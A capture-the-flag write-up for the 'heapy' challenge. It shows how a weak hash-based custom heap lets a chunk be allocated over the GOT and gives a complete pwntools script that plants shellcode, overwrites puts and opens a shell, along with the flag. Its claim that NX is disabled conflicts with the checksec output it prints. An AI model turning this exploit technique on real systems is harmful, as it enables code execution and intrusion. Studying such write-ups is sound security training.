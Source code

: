 # Writeup for heapy (pwn, 800 pts, 4 solves), Kaizen CTF at Blackhat 2017

Description:

> Other CTF competitions have custom heap challenges with trivial overflows. Here at Kaizen, we ensure that our custom heaps contain 0% overflowable buffers.
> `nc challenges.kaizen-ctf.com 10055`

## TL;DR

- Hash-based custom heap

- Faulty implementation -> allocate chunks at attacker-controlled location

- Allocate chunk over GOT

- Overwrite GOT

## Analysing the Target

We perform some quick checks, before reversing the binary:

```
> file heapy
heapy: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=1421182e6b43c3ecab7eb8745fc7fad574921f5c, not stripped
```
32-bit binary, dynamically linked, not stripped

```
> checksec heapy
[*] 'heapy'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE
```
All exploit mitigation techniques are turned off: no RELRO, no stack canary, NX and PIE are disabled.

After these checks, we take a look at its functionality; we can:
- Create pastes, specifying their size
- Write to a paste by id (no buffer overflow here)
- Delete a paste by id
- Read a paste by id
- Exit 

After statically analysing the binary, we see that a custom hash-based heap implementation `halloc` is used.
`halloc` computes a weak hash from the requested size (`(0x9E3779B1 * size) % 0xFFFFFFFF`), interprets this hash as an address, and `mmap`s a chunk there.

## The Exploit

We bruteforce the hash for addresses near the global offset table, so that we can allocate a paste over the GOT and overwrite some GOT entries with the address to our shellcode.

Since NX is disabled, we allocate a chunk and write our shellcode to it. Using the hash formula, we can calculate the address the shellcode will end up at.

Putting everything together, we end up with the following exploit script:
```python
from pwn import *
import ctypes

LOCAL_BINARY = './heapy'

context.binary = LOCAL_BINARY

SC_SPEC_SIZE = 1000

proc = None
def connect():
    global proc
    if args['REMOTE']:
        proc = remote('challenges.kaizen-ctf.com', 10055)
    else:
        proc = process(LOCAL_BINARY)

def hash(n):
    return ctypes.c_uint32(0x9E3779B1 * n).value, ctypes.c_uint32(n).value

if __name__ == '__main__':

    """
    # bruteforce hash to find an address near the GOT
    for i in xrange(-(2**31), 2**31):
        addr, size = hash(i)
        if i % 1000000 == 0:
            print(size)
        if 0x8049000 <= addr <= 0x804a000:
            print("%d - 0x%08x" % (size, addr))
    # found: 2155026857 - 0x08049ed9
    """
    
    connect()

    sc = '\x90'*4 + asm(shellcraft.sh()) + '\x90'*4

    addr_sc, size_sc = hash(SC_SPEC_SIZE)
    if len(sc) > size_sc: log.error("sc too large")
    log.info("addr_sc: 0x%x", addr_sc)

    # create legit chunk at addr_sc and write shellcode
    proc.sendlineafter('Exit', '1')
    proc.sendlineafter('big is', str(size_sc))
    proc.sendlineafter('Exit', '2')
    proc.sendlineafter('paste would', '0')
    proc.sendlineafter('your input', sc)

    # create chunk in front of GOT (0x08049ed9 - 3 bytes read, 4 bytes printf, 4 bytes puts)
    proc.sendlineafter('Exit', '1')
    proc.sendlineafter('big is', '2155026857')
    # overwrite puts with addr of sc
    proc.sendlineafter('Exit', '2')
    proc.sendlineafter('paste would', '1')
    proc.sendlineafter('your input', '\x00'*7 + p32(addr_sc))

    proc.interactive()
```
Flag: `KAIZEN{was_1t_4_he4p_bug}`
